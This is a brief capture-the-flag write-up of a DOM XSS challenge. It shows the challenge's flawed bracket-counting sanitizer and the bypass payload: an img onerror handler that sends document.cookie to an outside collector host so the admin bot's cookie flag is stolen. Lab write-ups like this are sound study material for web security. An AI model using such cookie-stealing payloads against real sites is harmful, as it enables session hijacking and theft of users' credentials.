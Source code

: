 ## Owner:

> CaptainFreak

#### Solved?

 -Yes

#### Tried:

1. Straigh forward DOM XSS due to falty sanitization.

#### Solutions:

1. 

Challenges had following code:

```javascript
function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}

```

2. 
```html
"><img src=x onerror="javascript:document.location='https://burp.collab/?flag='+document.cookie"></img>
```
because always parsing starts with '>' brackets count will oscillate between -1 and 0.

3. We submit this to admin bot and it has flag in its cookie.




